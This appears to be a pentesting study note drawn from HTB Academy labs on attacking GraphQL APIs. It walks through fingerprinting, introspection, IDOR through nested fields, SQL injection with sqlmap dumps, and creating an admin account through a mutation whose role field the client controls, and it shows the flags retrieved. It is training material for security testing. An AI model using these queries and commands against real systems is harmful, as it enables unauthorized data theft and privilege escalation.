# GraphQL

This document outlines common techniques for identifying and exploiting vulnerabilities related to **GraphQL**. It is intended as a practical, hands-on reference rather than a comprehensive theoretical guide.

---

# Table of Contents

- [GraphQL](#graphql)
  - [Overview](#overview)    
  - [Attacking GraphQL](#attacking-graphql)
    - [Information Disclosure](#information-disclosure)
    - [Insecure Direct Object Reference (IDOR)](#insecure-direct-object-reference-idor)
    - [SQL Injection](#sql-injection)
    - [Mutations](#mutations)
  - [Tools](#tools)
  - [Exploitation - Example](#exploitation---example)

---

## Overview

GraphQL is a **query language for APIs** and is commonly used as an alternative to **Representational State Transfer (REST)**. Unlike REST, which exposes multiple endpoints for different resources, GraphQL APIs typically operate through a **single endpoint** that handles all queries and mutations.

GraphQL queries can be used to **read, create, update, and delete data**, offering increased efficiency in both resource utilization and request handling compared to traditional REST-based APIs.

A GraphQL service is commonly exposed at endpoints such as:

- `/graphql`
- `/api/graphql`

Interacting directly with the GraphQL endpoint can reveal **misconfigurations and security weaknesses**, making it a valuable attack surface during application testing.

GraphQL operates on **objects**, each of which is defined by a specific **type**. Objects expose **fields** that can be queried by the client. According to GraphQL syntax, queries are executed from the **root level**, where the name of the query determines the entry point.

The following example demonstrates a query named `users` that requests the `id`, `username`, and `role` fields for all `User` objects:

```graphql
{
  users {
    id
    username
    role
  }
}
```

The corresponding response returns two `User` objects:

```graphql
{
  "data": {
    "users": [
      {
        "id": 1,
        "username": "htb-stdnt",
        "role": "user"
      },
      {
        "id": 2,
        "username": "admin",
        "role": "admin"
      }
    ]
  }
}
```

If a query supports **arguments**, they can be used to filter the returned results. For example, if the `users` query supports a `username` argument, the following request retrieves information for the `admin` user only:

```graphql
{
  users(username: "admin") {
    id
    username
    role
  }
}
```

Queries can also be modified to request **additional or alternative fields**. For instance, the `role` field can be replaced with the `password` field:

```graphql
{
  users(username: "admin") {
    id
    username
    password
  }
}
```

Objects in GraphQL may reference other objects. GraphQL supports **nested queries**, allowing a client to retrieve data from related objects within a single request.

Suppose the `posts` query exposes an `author` field, which references a `User` object. The following example queries fields from the nested `author` object:

```graphql
{
  posts {
    title
    author {
      username
      role
    }
  }
}
```

---

## Attacking GraphQL

---

### Information Disclosure

The first step is determining whether the target application utilizes **GraphQL**.

We are provided with valid credentials:

```
htb-student:AcademyStudent!
```

After authenticating and intercepting the application’s traffic, we observe requests being sent to a **GraphQL endpoint**:

```
/graphql
```



This confirms that the application relies on GraphQL for backend communication.

The next step is identifying the GraphQL engine used by the application. To achieve this, we utilize `graphW00f`, a GraphQL fingerprinting tool. `graphW00f` sends a series of valid and malformed GraphQL queries and determines the underlying engine by analyzing response behavior.

First, clone the GitHub repository:

```
git clone https://github.com/dolevf/graphw00f.git
```

We then execute the tool from within the cloned directory. The following command runs `graphW00f` in fingerprinting (`-f`) and detection (`-d`) mode while supplying the target URL via `-t`. By providing the base URL, `graphW00f` attempts to automatically locate the GraphQL endpoint:

```bash
python3 main.py -d -f -t http://83.136.253.144:39282
```

The tool successfully discovers the GraphQL endpoint and identifies the engine in use:

```
[*] Discovered GraphQL Engine: (Graphene)
```


`graphW00f` leverages the **GraphQL Threat Matrix Project** as its reference database. Upon successfully fingerprinting the endpoint, the tool provides a URL to the relevant threat matrix documentation:

```
[!] Attack Surface Matrix: https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/implementations/graphene.md
```


This document outlines common misconfigurations and attack surfaces specific to the **Graphene** GraphQL implementation.

By directly accessing the GraphQL endpoint in a browser, we observe that the application exposes a `GraphiQL` interface:

```
http://94.237.120.137:33885/graphql
```


The `GraphiQL` interface allows us to interact with the GraphQL API directly, making it easier to craft and test queries without relying on **Burp Suite**. This reduces the risk of malformed JSON requests and improves efficiency during enumeration.

**Introspection** is a built-in GraphQL feature that allows clients to query the API for details about its schema. When enabled, introspection can expose valuable information about available types, queries, and fields.

To enumerate all supported types, we query the `__schema` field:

```graphql
{
  __schema {
    types {
      name
    }
  }
}
```



The response reveals several objects that can be queried, including:

- `UserObject`
- `SecretObject`
- `RegisterUser`

We can further enumerate the fields of a specific object. For example, the following query retrieves all fields exposed by `UserObject`:

```graphql
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```



This reveals sensitive fields such as:

- `username`
- `password`
- `role`

To identify all available queries supported by the backend, we enumerate the root query type:

```graphql
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```



This includes the following queries:

- `secrets`
- `users`
- `posts`

For complete visibility into the GraphQL schema, including types, fields, mutations, and directives, we can issue a full introspection query:

```graphql
query IntrospectionQuery {
      __schema {
        queryType { name }
        mutationType { name }
        subscriptionType { name }
        types {
          ...FullType
        }
        directives {
          name
          description
          
          locations
          args {
            ...InputValue
          }
        }
      }
    }

    fragment FullType on __Type {
      kind
      name
      description
      
      fields(includeDeprecated: true) {
        name
        description
        args {
          ...InputValue
        }
        type {
          ...TypeRef
        }
        isDeprecated
        deprecationReason
      }
      inputFields {
        ...InputValue
      }
      interfaces {
        ...TypeRef
      }
      enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
      }
      possibleTypes {
        ...TypeRef
      }
    }

    fragment InputValue on __InputValue {
      name
      description
      type { ...TypeRef }
      defaultValue
    }

    fragment TypeRef on __Type {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```

After identifying the available queries, we attempt to access the `secrets` query directly:

```graphql
{
  secrets{
	secret
  }
}
```

The server responds with the following data:

```
{
  "data": {
    "secrets": [
      {
        "secret": "HTB{ddd7c7354d1f06db3604b3bbc8ccf5cd}"
      }
    ]
  }
}
```


This confirms that **sensitive data is accessible without proper authorization**, demonstrating an information disclosure vulnerability caused by unrestricted GraphQL introspection and inadequate access controls.

---

### Insecure Direct Object Reference (IDOR)

Broken authorization vulnerabilities, particularly **Insecure Direct Object References (IDOR)**, are common in GraphQL implementations. A more detailed explanation of IDOR vulnerabilities can be found in the `web-attacks.md` file located in the `web-attacks` directory of this repository.

To identify IDOR vulnerabilities, we must enumerate the application to locate **direct object references** that may be accessed or manipulated without proper authorization checks.

After authenticating to the application using the provided credentials:

```
htb-stdnt:AcademyStudent!
```

we observe the following GraphQL query being sent to the backend server:

```graphql
{"query":"{posts { uuid title body category author { username }}}"}
```


This query requests all `posts` and retrieves the following fields:

- `uuid`
- `title`
- `body`
- `category`
- `author`

The server responds by returning multiple `Post` objects. An example response is shown below:

```graphql
{
  "uuid": "1",
  "title": "Lorem ipsum 1",
  "body": "Lorem ipsum ...",
  "category": "food",
  "author": {
    "username": "admin"
  }
}
```



Notably, the `author` field queries a nested object and currently exposes the `username` subfield. This suggests that additional subfields may also be accessible.

To further enumerate available fields, we interact directly with the GraphQL API using the **GraphiQL** interface:

```
http://83.136.253.5:46533/graphql
```

We begin by inspecting the `PostObject` type using an introspection query:

```graphql
{
  __type(name: "PostObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

The response indicates that the `author` field references a `UserObject`:

```
{
  "name": "author",
  "type": {
    "name": "UserObject",
    "kind": "OBJECT"
  }
}
```



Since `author` resolves to a `UserObject`, we enumerate the fields available within that object:

```graphql
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

The following fields are exposed:

- `uuid`
- `id`
- `username`
- `password`
- `role`
- `msg`
- `posts`



The presence of sensitive fields such as `password` indicates a potential authorization weakness.

To test whether access controls are enforced, we modify the original `posts` query to include the `password` field under the `author` object:

```graphql
{"query":"{posts { uuid title body category author { username password }}}"}
```

The server responds with the following data:

```
"author": {
  "username": "admin",
  "password": "HTB{79ebbbce53f40edf75c667ef6fd36fae}"
}
```


This confirms that the application fails to enforce **object-level and field-level authorization**, allowing unauthorized access to sensitive user data. This behavior constitutes an **Insecure Direct Object Reference (IDOR)** vulnerability within the GraphQL API.

---

### SQL Injection

Injection vulnerabilities such as **SQL injection, command injection, and cross-site scripting (XSS)** can also occur in GraphQL implementations.

Although GraphQL itself is a query language, it is often used as an abstraction layer over backend data sources such as **SQL databases**. If user-supplied input is not properly sanitized before being used in backend queries, the application may become vulnerable to SQL injection attacks.

The first step is to enumerate the GraphQL API and identify queries that accept **user-controlled arguments**, as these are potential injection points. 

Using **introspection queries** or the **Document Explorer in GraphiQL**, we discover that the following queries require arguments:

- `node(id: ID!)`
- `user(username: String!)`
- `postByAuthor(author: String!)`
- `post(id: Int!)`


Another way to identify required arguments is to submit a query without providing them and analyze the error response. For example:

```graphql
{"query":"{post { uuid }}"}
```

```graphql
{
  "errors": [
    {
      "message": "Field \"post\" argument \"id\" of type \"Int!\" is required but not provided.",
      "locations": [
        {
          "line": 1,
          "column": 2
        }
      ]
    }
  ]
}
```



To test for SQL injection vulnerabilities, we inject a single quote (`'`) into the argument value and observe whether the backend returns a SQL-related error message. This can be done using either **GraphiQL** or **Burp Suite**.

**GraphiQL example**:

```graphql
{
  user(username: "admin'") {
    id
  }
}
```


**Burp Suite example**:

```graphql
{"query":"{user(username: \"admin'\") {uuid}}"}
```


When testing via **Burp Suite**, the double quotes surrounding the argument must be escaped to preserve valid JSON syntax.

The application responds with the following error message:

```
(pymysql.err.ProgrammingError) (1064, \"You have an error in your SQL syntax; ... )
```

This error confirms the presence of a **SQL injection vulnerability** in the user query.

A more efficient approach is to automate identification and exploitation using **SQLmap**.

First, intercept the request in **Burp Suite** and place a `*` at the injection point to indicate where **SQLmap** should inject payloads:

```graphql
{"query":"{user(username: \"admin*\") {uuid}}"}
```


Save the request to a file and allow **SQLmap** to parse it directly:

```bash
sqlmap -r req.txt --banner --current-user --current-db --is-dba --batch
```

SQLmap successfully identifies the vulnerability and fingerprints the database:

- Banner: `10.11.6-MariaDB-0+deb12u1`
- Current user: `db@localhost`
- Current database: `db`
- DBA: `false`



We proceed by enumerating all tables within the `db` database:

```bash
sqlmap -r req.txt --tables -D db --batch
```

SQLmap identifies the following tables:

- `user`
- `flag`
- `post`
- `secret`



Finally, we dump the contents of the `flag` table:

```bash
sqlmap -r req.txt -D db -T flag --dump --batch
```

The flag is successfully retrieved:

```
HTB{1105f1d9480ac244a0c8f2bc47594581}
```


This demonstrates that **GraphQL does not inherently protect against injection attacks**. If backend queries are constructed insecurely and user input is not sanitized, GraphQL APIs remain fully susceptible to traditional injection vulnerabilities.

---

### Mutations

All GraphQL queries covered so far are used to **read data**. **Mutations** are a special class of GraphQL operations used to **modify data**, including creating, updating, and deleting objects.

Improperly secured mutations frequently lead to **authorization bypasses, privilege escalation, and mass assignment vulnerabilities**.

To identify available mutations and their required arguments, we use the following introspection query:

```graphql
query {
  __schema {
    mutationType {
      name
      fields {
        name
        args {
          name
          defaultValue
          type {
            ...TypeRef
          }
        }
      }
    }
  }
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}
```

The response reveals a mutation named `registerUser`, which appears to allow the creation of new user accounts. This mutation requires a `RegisterUserInput` object as input:

```graphql
{
  "data": {
    "__schema": {
      "mutationType": {
        "name": "Mutation",
        "fields": [
          {
            "name": "registerUser",
            "args": [
              {
                "name": "input",
                "defaultValue": null,
                "type": {
                  "kind": "NON_NULL",
                  "name": null,
                  "ofType": {
                    "kind": "INPUT_OBJECT",
                    "name": "RegisterUserInput",
                    "ofType": null
                  }
                }
              }
            ]
          }
        ]
      }
    }
  }
}
```



To understand which fields can be supplied when registering a user, we enumerate the `RegisterUserInput` object:

```graphql
{   
  __type(name: "RegisterUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

The response shows that the `RegisterUserInput` object contains the following fields:

- `username`
- `password`
- `role`
- `msg`


This indicates that the client can directly control the user’s **role**, which may lead to privilege escalation.

Before creating a new user, we query existing users to understand how credentials are stored:

```graphql
{
  users {
    username
    password
    role
    msg
  }
}
```

The response shows that user passwords are stored as **MD5 hashes**:

```graphql
{
  "data": {
    "users": [
      {
        "username": "htb-stdnt",
        "password": "c874441baa22306df202ca127f23d3a7",
        "role": "user",
        "msg": "Welcome!"
      },
      {
        "username": "test",
        "password": "b4574701cdf945940353b356925dddb7",
        "role": "user",
        "msg": "Test"
      },
      {
        "username": "admin",
        "password": "HTB{79ebbbce53f40edf75c667ef6fd36fae}",
        "role": "admin",
        "msg": "Hello admin!"
      }
    ]
  }
}
```


We generate an MD5 hash for the password `password`:

```bash
echo -n "password" | md5sum
```

Output:

```
5f4dcc3b5aa765d61d8327deb882cf99
```

Using the `registerUser` mutation, we create a new user with standard privileges:

```graphql
mutation {
  registerUser(input: {username: "sam", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "user", msg: "newUser"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

The response confirms successful user creation:

```graphql
{
  "data": {
    "registerUser": {
      "user": {
        "username": "sam",
        "password": "5f4dcc3b5aa765d61d8327deb882cf99",
        "msg": "newUser",
        "role": "user"
      }
    }
  }
}
```



Authentication using the newly created account is successful.

Because the `role` field is client-controlled, we attempt to create a new user with administrative privileges:

```graphql
mutation {
  registerUser(input: {username: "muppet", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "admin", msg: "newUser"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

The response confirms that the user is created with the `admin` role:

```
{
  "data": {
    "registerUser": {
      "user": {
        "username": "muppet",
        "password": "5f4dcc3b5aa765d61d8327deb882cf99",
        "msg": "newUser",
        "role": "admin"
      }
    }
  }
}
```



After authenticating as the newly created administrative user, we gain access to the `Admin Area` and successfully retrieve the flag:

```
HTB{f7082828b5e5ad40d955846ba415d17f}
```


This demonstrates a **mass assignment and privilege escalation vulnerability** caused by insufficient authorization checks on GraphQL mutations. Allowing clients to supply sensitive fields such as `role` enables attackers to escalate privileges and fully compromise the application.

---

## Tools

In a previous section (`Information Disclosure`), we covered the GraphQL fingerprinting tool `graphW00f`. Another useful tool is `GraphQL-Cop`, a security auditing tool designed to identify common GraphQL misconfigurations and vulnerabilities.

`GraphQL-Cop` performs automated checks against a GraphQL endpoint and reports potential issues related to information disclosure, denial of service, and misconfigurations.

Clone the GitHub repository:

```bash
git clone https://github.com/dolevf/graphql-cop
```

Install the required dependencies:

```bash
python3 -m venv path/to/venv
source path/to/venv/bin/activate
python3 -m pip install -r requirements.txt
```

Run the tool against the GraphQL endpoint using the `-t` flag:

```bash
python3 graphql-cop.py -t https://IP:PORT/graphql
```

Example output:

```
[HIGH] Alias Overloading - Alias Overloading with 100+ aliases is allowed (Denial of Service - /graphql)
[HIGH] Array-based Query Batching - Batch queries allowed with 10+ simultaneous queries (Denial of Service - /graphql)
[HIGH] Directive Overloading - Multiple duplicated directives allowed in a query (Denial of Service - /graphql)
[HIGH] Field Duplication - Queries are allowed with 500 of the same repeated field (Denial of Service - /graphql)
[LOW] Field Suggestions - Field Suggestions are Enabled (Information Leakage - /graphql)
[MEDIUM] GET Method Query Support - GraphQL queries allowed using the GET method (Possible Cross Site Request Forgery (CSRF) - /graphql)
[LOW] GraphQL IDE - GraphiQL Explorer/Playground Enabled (Information Leakage - /graphql)
[HIGH] Introspection - Introspection Query Enabled (Information Leakage - /graphql)
[MEDIUM] POST based url-encoded query (possible CSRF) - GraphQL accepts non-JSON queries over POST (Possible Cross Site Request Forgery - /graphql)
```

